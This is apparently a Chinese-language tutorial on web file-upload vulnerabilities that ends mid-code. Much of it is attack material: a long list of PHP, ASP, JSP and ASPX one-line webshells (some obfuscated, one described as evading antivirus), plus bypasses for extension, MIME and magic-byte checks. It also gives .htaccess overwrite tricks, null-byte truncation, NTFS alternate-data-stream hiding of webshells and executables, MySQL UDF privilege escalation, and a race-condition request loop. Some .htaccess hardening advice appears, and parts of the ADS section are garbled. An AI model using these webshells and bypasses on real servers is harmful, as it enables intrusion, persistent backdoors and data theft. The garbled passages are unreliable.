






# 介绍文件上传漏洞
文件上传漏洞是指由于程序员在对用户文件上传部分的控制不足或者处理缺陷，而导致的用户可以越过其本身权限向服务器上上传可执行的动态脚本文件。这里上传的文件可以是木马，病毒，恶意脚本或者 WebShell 等。“文件上传” 本身没有问题，有问题的是文件上传后，服务器怎么处理、解释文件。如果服务器的处理逻辑做的不够安全，则会导致严重的后果。
产生原因：
- 对于上传文件的后缀名（扩展名）没有做较为严格的限制
- 对于上传文件的 MIMETYPE (用于描述文件的类型的一种表述方法) 没有做检查
- 权限上没有对于上传的文件目录设置不可执行权限，（尤其是对于 shebang 类型的文件）
- 对于 web server 对于上传文件或者指定目录的行为没有做限制
原理：
在 WEB 中进行文件上传的原理是通过将表单设为 multipart/form-data，同时加入文件域，而后通过 HTTP 协议将文件内容发送到服务器，服务器端读取这个分段 (multipart) 的数据信息，并将其中的文件内容提取出来并保存的。通常，在进行文件保存的时候，服务器端会读取文件的原始文件名，并从这个原始文件名中得出文件的扩展名，而后随机为文件起一个文件名 ( 为了防止重复 )，并且加上原始文件的扩展名来保存到服务器上
文件上传后导致的常见安全问题一般有:
上传文件是 Web 脚本语言，服务器的 Web 容器解释并执行了用户上传的脚本，导致代
码执行；
上传文件是 Flash 的策略文件 crossdomain.xml, 黑客用以控制 Flash 在该域下的行为 (其
他通过类似方式控制策略文件的情况类似);
上传文件是病毒、木马文件，黑客用以诱骗用户或者管理员下载执行:
上传文件是钓鱼图片或为包含了脚本的图片，在某些版本的浏览器中会被作为脚本执
行，被用于钓鱼和欺诈。
除此之外，还有一些不常见的利用方法，比如将上传文件作为一个入口，溢出服务器的后台处理程序，如图片解析模块；或者上传 - 一个合法的文本文件， 其内容包含了 PHP 脚本，再通过 “本地文件包含漏洞 (Local File Include)" 执行此脚本；等等。
# 有关文件上传的知识
# webshell
什么是 webshell
WebShell 就是以 asp、php、jsp 或者 cgi 等网页文件形式存在的一种命令执行环境，也可以将其称之为一种网页后门。攻击者在入侵了一个网站后，通常会将这些 asp 或 php 后门文件与网站服务器 web 目录下正常的网页文件混在一起，然后使用浏览器来访问这些后门，得到一个命令执行环境，以达到控制网站服务器的目的（可以上传下载或者修改文件，操作数据库，执行任意命令等）。 WebShell 后门隐蔽较性高，可以轻松穿越防火墙，访问 WebShell 时不会留下系统日志，只会在网站的 web 日志中留下一些数据提交记录
# 一句话木马
常用的 webshell 就是一句话木马，结合中国菜刀或者 hackbar 等工具可以很高效快捷的获得网站 shell。
##PHP： | |
<?php @eval($_POST['r00ts']);?> | |
<?php phpinfo();?> | |
<?php @eval($_POST[cmd]);?> | |
<?php @eval($_REQUEST[cmd]);?> | |
<?php assert($_REQUEST[cmd]); ?> | |
<?php //?cmd=phpinfo() @preg_replace("/abc/e",$_REQUEST['cmd'],"abcd"); ?> | |
<?php | |
//?cmd=phpinfo(); | |
$func =create_function('',$_REQUEST['cmd']); | |
$func(); | |
?> | |
<?php | |
//?func=system&cmd=whoami | |
$func=$_GET['func']; | |
$cmd=$_GET['cmd']; | |
$array[0]=$cmd; | |
$new_array=array_map($func,$array); | |
//print_r($new_array); | |
?> | |
<?php | |
//?cmd=phpinfo() | |
@call_user_func(assert,$_GET['cmd']); | |
?> | |
<?php | |
//?cmd=phpinfo() | |
$cmd=$_GET['cmd']; | |
$array[0]=$cmd; | |
call_user_func_array("assert",$array); | |
?> | |
<?php | |
//?func=system&cmd=whoami | |
$cmd=$_GET['cmd']; | |
$array1=array($cmd); | |
$func =$_GET['func']; | |
array_filter($array1,$func); | |
?> | |
<?php usort($_GET,'asse'.'rt');?> php环境>=<5.6才能用 | |
<?php usort(...$_GET);?> php环境>=5.6才能用 | |
<?php eval($_POST1);?> | |
<?php if(isset($_POST['c'])){eval($_POST['c']);}?> | |
<?php system($_REQUEST1);?> | |
<?php ($_=@$_GET1).@$_($_POST1)?> | |
<?php eval_r($_POST1)?> | |
<?php @eval_r($_POST1)?>//容错代码 | |
<?php assert($_POST1);?>//使用Lanker一句话客户端的专家模式执行相关的PHP语句 | |
<?$_POST['c']($_POST['cc']);?> | |
<?$_POST['c']($_POST['cc'],$_POST['cc'])?> | |
<?php @preg_replace("/[email]/e",$_POST['h'],"error");?>/*使用这个后,使用菜刀一句话客户端在配置连接的时候在"配置"一栏输入*/:<O>h=@eval_r($_POST1);</O> | |
<?php echo `$_GET['r']` ?> | |
<script language="php">@eval_r($_POST[sb])</script> //绕过<?限制的一句话 | |
<?php (])?> 上面这句是防杀防扫的！网上很少人用！可以插在网页任何ASP文件的最底部不会出错，比如 index.asp里面也是可以的！ | |
<?if(isset($_POST['1'])){eval($_POST['1']);}?><?php system ($_REQUEST[1]);?> | |
加了判断的PHP一句话，与上面的ASP一句话相同道理，也是可以插在任何PHP文件 的最底部不会出错！ | |
<%execute request(“class”)%><%'<% loop <%:%><%'<% loop <%:%><%execute request (“class”)%><%execute request(“class”)'<% loop <%:%> | |
无防下载表，有防下载表可尝试插入以下语句突破的一句话 | |
<%eval(request(“1″)):response.end%> 备份专用 |
##JSP：
<%if(request.getParameter("f")!=null)(newjava.io.FileOutputStream (application.getRealPath("\\")+request.getParameter("f"))).write (request.getParameter("t").getBytes());%>
提交客户端
<form action="" method="post"><textareaname="t"></textarea><br/><input type="submit"value="提交"></form>
##ASP
<%eval(Request.Item["r00ts"],”unsafe”);%>
<%IfRequest(“1″)<>”"ThenExecuteGlobal(Request(“1″))%>
<%execute(request(“1″))%>
<scriptrunat=server>execute request(“1″)</script> 不用'<,>‘的asp一句话
##aspx
<scriptrunat=”server”>WebAdmin2Y.x.y aaaaa =newWebAdmin2Y.x.y (“add6bb58e139be10″);</script>
<script language="C#"runat="server">WebAdmin2Y.x.y a=new WebAdmin2Y.x.y("add6bb58e139be10")</script>
<%eval request(chr(35))%> 不用双引号的一句话。
# 文件上传的攻击与防御方法
# 本地前端限制
function checkFile() { | |
var file = document.getElementsByName('upload_file')[0].value; | |
if (file == null || file == "") { | |
alert("请选择要上传的文件!"); | |
return false; | |
} | |
// 定义允许上传的文件类型 | |
var allow_ext = ".jpg|.png|.gif"; | |
// 提取上传文件的类型 | |
var ext_name = file.substring(file.lastIndexOf(".")); | |
// 判断上传文件类型是否允许上传 | |
if (allow_ext.indexOf(ext_name + "|") == -1) { | |
var errMsg = "该文件不允许上传，请上传" + allow_ext + "类型的文件,当前文件类型为：" + ext_name; | |
alert(errMsg); | |
return false; | |
} | |
} |
# 原理
在表单中使用 onsumbit=checkFile () 调用 js 函数来检查上传文件的扩展名。当用户在客户端选择文件点击上传的时候，客户端还没有向服务器发送任何消息，就对本地文件进行检测来判断是否是可以上传的类型，这种方式称为前台脚本检测扩展名。
# 绕过方法
这种限制很简单，通过浏览器 F12 很简单的修改文件后缀名就可以完成绕过检查，或者是讲木马修改后缀名后上传，通过改包工具修改上传。如果是 JS 脚本检测，在本地浏览器客户端禁用 JS 即可。可使用火狐浏览器的 NoScript 插件、IE 中禁用掉 JS 等方式实现绕过。
# 操作方法
准备一句话木马：
<?php | |
@eval($_POST['cmd']); | |
?> |
并且修改后缀名为 jpg，上传操作，通过 burpsuit 抓包改包，使其后缀名修改回 php。
# 服务器检测扩展名
就是在文件被上传到服务端的时候，对于文件名的扩展名进行检查，如果不合法，则拒绝这次上传
在检查扩展名是否合法的时候，有两种策略：
# 黑名单策略
文件扩展名在黑名单中的为不合法
示例：
$is_upload = false; | |
$msg = null; | |
if (isset($_POST['submit'])) { | |
if (file_exists(UPLOAD_PATH)) { | |
$deny_ext = array('.asp','.aspx','.php','.jsp'); | |
$file_name = trim($_FILES['upload_file']['name']); | |
$file_name = deldot($file_name);// 删除文件名末尾的点 | |
$file_ext = strrchr($file_name, '.'); | |
$file_ext = strtolower($file_ext); // 转换为小写 | |
$file_ext = str_ireplace('::$DATA', '', $file_ext);// 去除字符串::$DATA | |
$file_ext = trim($file_ext); // 收尾去空 | |
if(!in_array($file_ext, $deny_ext)) { | |
$temp_file = $_FILES['upload_file']['tmp_name']; | |
$img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext; | |
if (move_uploaded_file($temp_file,$img_path)) { | |
$is_upload = true; | |
} else { | |
$msg = '上传出错！'; | |
} | |
} else { | |
$msg = '不允许上传.asp,.aspx,.php,.jsp后缀文件！'; | |
} | |
} else { | |
$msg = UPLOAD_PATH . '文件夹不存在,请手工创建！'; | |
} | |
} |
# 白名单策略
文件扩展名不在白名单中的均为不合法
示例：
$is_upload = false; | |
$msg = null; | |
if(isset($_POST['submit'])){ | |
$ext_arr = array('jpg','png','gif'); | |
$file_ext = substr($_FILES['upload_file']['name'],strrpos($_FILES['upload_file']['name'],".")+1); | |
if(in_array($file_ext,$ext_arr)){ | |
$temp_file = $_FILES['upload_file']['tmp_name']; | |
$img_path = $_GET['save_path']."/".rand(10, 99).date("YmdHis").".".$file_ext; | |
if(move_uploaded_file($temp_file,$img_path)){ | |
$is_upload = true; | |
} else { | |
$msg = '上传出错！'; | |
} | |
} else{ | |
$msg = "只允许上传.jpg|.png|.gif类型文件！"; | |
} | |
} |
# 原理
当浏览器将文件提交到服务器端的时候，服务器端会根据设定的黑白名单对浏览器提交上来的文件扩展名进行检测，如果上传的文件扩展名不符合黑白名单的限制，则不予上传，否则上传成功。
# 绕过方法
在一些 Web server 中，存在解析漏洞:
1. 老版本的IIS6中的目录解析漏洞，如果网站目录中有一个 /.asp/目录，那么此目录下面的一切内容都会被当作asp脚本来解析
2. 老版本的IIS6中的分号漏洞：IIS在解析文件名的时候可能将分号后面的内容丢弃，那么我们可以在上传的时候给后面加入分号内容
来避免黑名单过滤，如 a.asp;jpg
3. 旧版Windows Server中存在空格和dot漏洞类似于 a.php. 和 a.php[空格] 这样的文件名存储后会被windows去掉点和空格，从而使
得加上这两个东西可以突破过滤，成功上传，并且被当作php代码来执行
4. nginx(0.5.x, 0.6.x, 0.7 <= 0.7.65, 0.8 <= 0.8.37)空字节漏洞 xxx.jpg%00.php 这样的文件名会被解析为php代码运行
（fastcgi会把这个文件当php看，不受空字节影响，但是检查文件后缀的那个功能会把空字节后面的东西抛弃，所以识别为jpg）
5. apache1.x,2.x的解析漏洞，上传如a.php.rar a.php.gif 类型的文件名，可以避免对于php文件的过滤机制，但是由于apache在解析
文件名的时候是从右向左读，如果遇到不能识别的扩展名则跳过，rar等扩展名是apache不能识别的，因此就会直接将类型识别为php，
从而达到了注入php代码的目的
# 服务器检测 MIME
原理 检查 Content-Type
HTTP 协议规定了上传资源的时候在 Header 中加上一项文件的 MIMETYPE，来识别文件类型，这个动作是由浏览器完成的，服务端可以检查此类型不过这仍然是不安全的，因为 HTTP header 可以被发出者或者中间人任意的修改。
# 常见类型
| 文件后缀 | Mime类型 | 说明 |
|---|---|---|
| .flv | flv/flv-flash | 在线播放 |
| .html或.htm | text/html | 超文本标记语言文本 |
| .rtf | application/rtf | RTF文本 |
| .gif 或.png | image/gif(image/png) | GIF图形/PNG图片 |
| .jpeg或.jpg | image/jpeg | JPEG图形 |
| .au | audio/basic | au声音文件 |
| .mid或.midi | audio/midi或audio/x-midi | MIDI音乐文件 |
| .ra或.ram或.rm | audio/x-pn-realaudio | RealAudio音乐文件 |
| .mpg或.mpeg或.mp3 | video/mpeg | MPEG文件 |
| .avi | video/x-msvideo | AVI文件 |
| .gz | application/x-gzip | GZIP文件 |
| .tar | application/x-tar | TAR文件 |
| .exe | application/octet-stream | 下载文件类型 |
| .rmvb | video/vnd.rn-realvideo | 在线播放 |
| .txt | text/plain | 普通文本 |
| .mrp | application/octet-stream | MRP文件（国内普遍的手机） |
| .ipa | application/iphone-package-archive | IPA文件(IPHONE) |
| .deb | application/x-debian-package-archive | DED文件(IPHONE) |
| .apk | application/vnd.android.package-archive | APK文件(安卓系统) |
| .cab | application/vnd.cab-com-archive | CAB文件(Windows Mobile) |
| .xap | application/x-silverlight-app | XAP文件(Windows Phone 7) |
| .sis | application/vnd.symbian.install-archive | SIS文件(symbian平台) |
| .jar | application/java-archive | JAR文件(JAVA平台手机通用格式) |
| .jad | text/vnd.sun.j2me.app-descriptor | JAD文件(JAVA平台手机通用格式) |
| .sisx | application/vnd.symbian.epoc/x-sisx-app | SISX文件(symbian平台) |
# 绕过方法
使用各种各样的工具（如 burpsuite）强行篡改 Header 就可以，将 Content-Type: application/php 改为其他 web 程序允许的类型。
# 文件头检查文件
原理:
利用的是每一个特定类型的文件都会有不太一样的开头或者标志位。
# 常见格式
| 格式 | 文件头 |
|---|---|
| TIFF (tif) | 49492A00 |
| Windows Bitmap (bmp) | 424D |
| CAD (dwg) | 41433130 |
| Adobe Photoshop (psd) | 38425053 |
| JPEG (jpg) | FFD8FF |
| PNG (png) | 89504E47 |
| GIF (gif) | 47494638 |
| XML (xml) | 3C3F786D6C |
| HTML (html) | 68746D6C3E |
| MS Word/Excel (xls.or.doc) | D0CF11E0 |
| MS Access (mdb) | 5374616E64617264204A |
| ZIP Archive (zip)， | 504B0304 |
| RAR Archive (rar)， | 52617221 |
| Wave (wav)， | 57415645 |
| AVI (avi)， | 41564920 |
| Adobe Acrobat (pdf)， | 255044462D312E |
# 绕过方法
给上传脚本加上相应的幻数头字节就可以，php 引擎会将 <? 之前的内容当作 html 文本，不解释而跳过之，后面的代码仍然能够得到执行比如下面：
（一般不限制图片文件格式的时候使用 GIF 的头比较方便，因为全都是文本可打印字符。）
# 限制 Web Server 对特定类型文件的行为 (.htaccess 文件攻击)
# 原理
导致文件上传漏洞的根本原因在于服务把用户上传的本应是数据的内容当作了代码，一般而言：用户上传的内容都会被存储到特定的一个文件夹下，比如我们很多人习惯于放在 ./upload/ 下面要防止数据被当作代码执行，我们可以限制 web server 对于特定文件夹的行为。
大多数服务端软件都可以支持用户对于特定类型文件的行为的自定义，以 Apache 为例：
在默认情况下，对与 .php 文件 Apache 会当作代码来执行，对于 html,css,js 文件，则会直接由 HTTP Response 交给客户端程序对于一些资源文件，比如 txt，doc，rar 等等，则也会以文件下载的方式传送的客户端。我们希望用户上传的东西仅仅当作资源和数据而不能当作代码。因此 Apache 使用服务器程序的接口来进行限制利用 .htaccess 文件机制来对 web server 行为进行限制。
禁止脚本执行有多种方式可以实现，而且分别有不同的效果：
指定特定扩展名的文件的处理方式，原理是指定 Response 的 Content-Type 可以加上如下几行
AddType text/plain .pl .py .php |
这种情况下，以上几种脚本文件会被当作纯文本来显示出来，你也可以换成其他的 Content-Type
这种情况下，以上几种脚本文件会被当作纯文本来显示出来，你也可以换成其他的 Content-Type
如果要完全禁止特定扩展名的文件被访问，用下面的几行
Options -ExecCGI | |
AddHandler cgi-script .php .pl .py .jsp .asp .htm .shtml .sh .cgi识别 |
在这种情况下，以上几种类型的文件被访问的时候，会返回 403 Forbidden 的错误
强制 web 服务器对于特定文件类型的处理，与第一条不同的是， 下面的方法直接强行让 apache 将文件识别为你指定的类型，而第一种是让浏览器符合上面正则的全部被认为是纯文本，也可以继续往里面加入其他类型。
<FilesMatch "\.(php|pl|py|jsp|asp|htm|shtml|sh|cgi)$"> | |
ForceType text/plain | |
</FilesMatch> |
只允许访问特定类型的文件。使得该文件夹里面只有图片扩展名的文件才可以被访问，其他类型都是拒绝访问 (白名单策略)。
<Files ^(*.jpeg|*.jpg|*.png|*.gif)> | |
order deny,allow | |
deny from all | |
</Files> |
# 绕过方法
可以通过 move_uploaded_file 函数把自己写的.htaccess 文件上传，覆盖掉服务器上的文件，来定义文件类型和执行权限如果做到了这一点，将获得相当大的权限。
补充知识 htaccess：
.htaccess 文件 (或者 "分布式配置文件"）, 全称是 Hypertext Access (超文本入口)。提供了针对目录改变配置的方法， 即，在一个特定的文档目录中放置一个包含一个或多个指令的文件， 以作用于此目录及其所有子目录。作为用户，所能使用的命令受到限制。管理员可以通过 Apache 的 AllowOverride 指令来设置。概述来说，htaccess 文件是 Apache 服务器中的一个配置文件，它负责相关目录下的网页配置。通过 htaccess 文件，可以帮我们实现：网页 301 重定向、自定义 404 错误页面、改变文件扩展名、允许 / 阻止特定的用户或者目录的访问、禁止目录列表、配置默认文档等功能。
这里还有一种
如果 PHP 安全没配置好就可以通过 move_uploaded_file 函数把自己写的.htaccess 文件覆盖掉服务器上的，这样就能任意定义解析名单了。
来做个小实验，先描述下效果：
通过一个.htaccess 文件调用 php 的解析器去解析一个文件名中只要包含 "haha" 这个字符串的任意文件，所以无论文件名是什么样子，只要包含 "haha" 这个字符串，都可以被以 php 的方式来解析，是不是相当邪恶，一个自定义的.htaccess 文件就可以以各种各样的方式去绕过很多上传验证机制建一个.htaccess 文件，里面的内容如下
<FilesMatch "haha"> | |
SetHandler application/x-httpd-php | |
</FilesMatch> |
# 文件系统 00 截断
00 截断的条件 (过气了)
1. php版本小于5.3.4
2. php的magic\_quotes\_gpc为OFF状态
# 原理
** 在上传的时候，当文件系统读到【0x00】时，会认为文件已经结束。** 利用 00 截断就是利用程序员在写程序时对文件的上传路径过滤不严格，产生 0x00、%00 上传截断漏洞。
# 绕过方法
通过抓包截断将【evil.php.jpg】后面的一个【.】换成【0x00】。在上传的时候，当文件系统读到【0x00】时，会认为文件已经结束，从而将【evil.php.jpg】的内容写入到【evil.php】中，从而达到攻击的目的。
# 7.windows NTFS 文件系统特性绕过
NTFS 交换数据流（alternate data streams 简称 ADS）是 NTFS 磁盘格式的新特性，见漏洞详细可查 CVE-1999-0278。

一个完整的流的格式为：::
文件主流即我们平时可以看见的可以存储数据的文件。而非主文件流寄宿于主文件流中，无法直接读取。
修改宿主文件的内容或流的内容，不会对彼此造成影响。
流类型总是以符 号 作 为 开 始 ， N T F S 文 件 系 统 中 的 文 件 至 少 包 含 一 个 主 流 ， 也 就 是 d a t a 流 (符号作为开始，NTFS 文件系统中的文件至少包含一个主流，也就是 data 流 (符号作为开始，NTFS 文件系统中的文件至少包含一个主流，也就是 data 流 (DATA)，默认流名为空。
ADS 可以省略流名，但不能省略流类型。
NTFS 文件系统中的文件夹没有 data 流，但可以指派 data 流，文件夹的主流为 directory 流 (I N D E X A L L O C A T I O N) ， 流 名 默 认 为 INDEX_ALLOCATION)，流名默认为 INDEX A LLOCATION)，流名默认为 I30
当我们对一个在 NTFS 分区中的 ASP 文件发出包含 D A T A 请 求 ， I I S 会 检 查 最 后 一 个 “.” 后 面 的 扩 展 名 ， 因 为 多 了 : : DATA 请求，IIS 会检查最后一个 “.” 后面的扩展名，因为多了::DATA 请求，IIS 会检查最后一个 “.” 后面的扩展名，因为多了::DATA，结果 IIS 不认为这是一个 ASP 文件，而文件系统可以识别该请求，于是返回 ASP 的源代码。
# 绕过方法
- IIS 目录访问权限绕过：在 IIS6.0+PHP、IIS7+asp、IIS7.5+php 的环境下，如果目录是通过 HTTP Basic 来认证，假设网站根目录存在 index.php 文件，可通过构造如下方式来绕过认证直接访问目录下的文件。
/admin::$INDEX_ALLOCATION/index.php | |
/admin:$i30:$INDEX_ALLOCATION/index.asp |
- 上传绕过黑名单：在测试中我们发现如果上传的文件名字为：test.php::$DATA，会在服务器上生成一个 test.php 的文件，其中内容和所上传文件内容相同，并被解析。
| 上传的文件名 | 服务器表面现象 | 生成的文件内容 |
|---|---|---|
| Test.php:a.jpg | 生成Test.php | 空 |
| Test.php::$DATA | 生成test.php | <?php phpinfo();?> |
| Test.php::$INDEX_ALLOCATION | 生成test.php文件夹 | |
| Test.php::$DATA\0.jpg | 生成0.jpg | <?php phpinfo();?> |
| Test.php::$DATA\aaa.jpg | 生成aaa.jpg | <?php phpinfo();?> |
注意：
对于windows环境的服务器，上传test.php:.jpg类型的文件，当文件传到服务端时，windows会将该文件识别成ADS，
从而认为其宿主文件名为1.asp而将.jpg识别为流名。
通过notepad test.php:.jpg可以查看内容，所以test.php内容为空是正常的。
然后修改上传的文件名为test.>>>或者test.<、test.<<<、test.>><再上传，会重写test.php。
原因是在PHP+IIS的环境下，" 同义. >同义? <同义*
- 隐藏 webshell：
在服务器上 echo 一个数据流文件进去，比如 index.php 是网页正常文件，命令如下：echo ^<?php @eval(request[cmd])?^ >> index.php:hidden.jpg
这样生成了一个不可见的 shell hidden.jpg，type dir del 命令都不行。利用文件包含就是一句话。
- mysql 中的 udf 提权:
如果数据库用户对数据库mysql（注意指的是数据库里的默认库mysql）具有insert和delete权限，就可以创建加载自定义函数。
而又因为mysql服务是以system权限运行在windows主机上，所以这个时候我们就可以通过自定义函数以system权限执行命令了。
如果数据库用户对数据库 mysql（注意指的是数据库里的默认库 mysql）具有 insert 和 delete 权限，就可以创建加载自定义函数。
而又因为 mysql 服务是以 system 权限运行在 windows 主机上，所以这个时候我们就可以通过自定义函数以 system 权限执行命令了。
Mysql 5.0.67 之前，DLL 的导入目录是 C:\windows\system32
从 MySQL 5.1 开始，要求目录必须是 mysql 目录下的 lib\plugin\ 目录，而且 mysql 5.1 之后的常用安装版本是默认不存在 lib\plugin 目录的。
执行 sql 语句show variables like '%plugin%';
查看目录位置。
利用 ADS 依次创建 lib、plugin 目录
select 'xxx' into outfile 'E:\\phpstudy\\PHPTutorial\\MySQL\\lib\\plugin::$INDEX_ALLOCATION';
如果创建失败的话，执行
show variables like '%secure%';
看看 secure_file_priv 的值：
null表示限制mysqld不允许导入导出
当secure_file_priv的值为/tmp/，表示限制mysqld 的导入导出只能在/tmp/目录下
当secure_file_priv的值为空，表示不对mysqld的导入导出做限制
- 隐藏 exe 文件
type muma.txt test.txt:muma.exe
在 xp 中可以用 start test.txt:muma.exe 执行，但是 win7 以上这样执行会报错。win7 及之后的系统的正确姿势如下：
创建一个符号链接文件 test.exe，链接到寄生的交换数据流可执行文件 test.txt:muma.exe 上：mklink test.exe,test.txt:muma.exe，然后执行 start test.exe/b 即可
更新一个方法：wmic process call create "C:\ProjectCode\test\test:putty.exe"
在WinXP中，可执行文件可以和文本文件一样实现真正的隐藏，这可能也是当时大多数杀毒软件添加数据流病毒查
杀功能的原因；在Win7之后的系统中，微软可能出于安全考虑，不允许直接运行交换数据流可执行文件，必须要
创建符号链接，这个符号链接是可见的（当然可以使用其他手段隐藏这个符号链接），并且这个符号链接创建出来
后不能复制到其他地方，只能在创建的那个位置使用命令行方式调用（鼠标双击会报错）。
查看隐藏流文件
使用这两款小工具配合进行检测和清除寄生的交换数据流
https://pan.baidu.com/share/link?shareid=134850&uk=1108295926
labs.exe检测，streams.exe进行清理。
还有一个叫做AlternateStreamView的工具也可以
# 二次渲染绕过
感觉这个的知识点偏向文件格式分析 (MISC)。在制作图片马的时候
往往是在图片后头附件一段 php 代码，或者是改包发送一个图片马。但是如果使用了二次渲染。我们上传的文件名称会被修改，并且文件末尾段一些冗余的信息（一句话木马）会被删除。
所以很明显，我们只需要将我们需要写入的东西塞在图片中间（虽然会使图片损坏，但是我们又不需要图片。。），用 winhex 或者是 010editor 等在文件内进行修改即可。
# 条件竞争
条件竞争漏洞是一种服务器端的漏洞，由于服务器端在处理不同用户的请求时是并发进行的，因此，如果并发处理不当或相关操作逻辑顺序设计的不合理时，将会导致此类问题的发生。
该漏洞一般出现在与数据库系统频繁交互的位置，例如金额同步、支付等较敏感操作处。另外条件竞争漏洞也会出现在其他位置，例如文件的操作处理等。
# -*-coding:utf-8-*- | |
import threading | |
COUNT = 0 | |
def Run(threads_name): | |
global COUNT | |
read_value = COUNT | |
print("COUNT in Thread-%s is %d" % (str(threads_name), read_value)) | |
COUNT = read_value + 1 | |
def main(): | |
threads = [] | |
for j in range(10000): | |
t = threading.Thread(target=Run, args=(j,)) | |
threads.append(t) | |
t.start() | |
for i in range(len(threads)): | |
threads[i].join() | |
print("Finally, The COUNT is %d" % (COUNT,)) | |
if __name__ == '__main__': | |
main() | |
#######################===== 输出结果 | |
#部分结果为： | |
…… | |
COUNT in Thread-9989 is 9972 | |
COUNT in Thread-9990 is 9973 | |
COUNT in Thread-9991 is 9974 | |
COUNT in Thread-9992 is 9975 | |
COUNT in Thread-9993 is 9976 | |
COUNT in Thread-9994 is 9977 | |
COUNT in Thread-9995 is 9978 | |
COUNT in Thread-9996 is 9979 | |
COUNT in Thread-9997 is 9980 | |
COUNT in Thread-9998 is 9981 | |
COUNT in Thread-9999 is 9982 | |
Finally, The COUNT is 9983 | |
Process finished with exit code 0 |
按照我们的预想，结果应该都是 10000，但是发现结果可能存在非预期解，并且出现非预期的概率还挺大的。
这是什么原因呢？
原因就在于我们没有对变量 COUNT 做同步制约，导致可能 Thread-7 在读 COUNT, 还没来得及更改 COUNT,Thread-8 抢夺资源，也来读 COUNT, 并且将 COUNT 修改为它读的结果 + 1，由此出现非预期。
同样的，WEB 应用程序因为要为很多用户服务，势必要采用多线程，但是，如果种种原因导致线程间的同步机制没处理好，那么也就会导致非预期和条件竞争的漏洞。
# 例一：金额提现
假设现有一个用户在系统中共有 2000 元可以提现，他想全部提现。于是该用户同时发起两次提现请求，第一次提交请求提现 2000 元，系统已经创建了提现订单但还未来得及修改该用户剩余金额，此时第二次提现请求同样是提现 2000 元，于是程序在还未修改完上一次请求后的余额前就进行了余额判断，显然如果这里余额判断速度快于上一次余额修改速度，将会产生成功提现的两次订单，而数据库中余额也将变为 - 2000。而这产生的后果将会是平台多向该用户付出 2000 元
# 例二：moctf 里的一道题
打开网址后一直打开的是 index2.php 修改为 index.php 后发现还是会跳转到 index2 抓包修改 index.php。

发现 index.php 是一个 302 网页，因此就可以看到这里存在的一个文件 uploadsomething.php。

随便填写文件名下面写入代码，再进行提交。
访问后

因此这里就需要用到条件竞争，不断的向网站发送请求，然后边发送边访问。
写入一个 py 文件一直发 requests 即可
import requests | |
url="http://119.23.73.3:5006/web2/uploads/b106f91010a3789acab1f27a00d67570052a7921/1.php" | |
while 1: | |
print (requests.get(url).text) |

# 例三：XMAN-Easy Gallery
伪协议读取代码http://202.112.51.184:8004/index.php?page=php://filter/read=convert.base64-encode/resource=upload.php
<html lang="zh-CN"> | |
<head> | |
<meta charset="utf-8"> | |
<?php | |
$error=$_FILES['pic']['error']; | |
$tmpName=$_FILES['pic']['tmp_name']; | |
$name=$_FILES['pic']['name']; | |
$size=$_FILES['pic']['size']; | |
$type=$_FILES['pic']['type']; | |
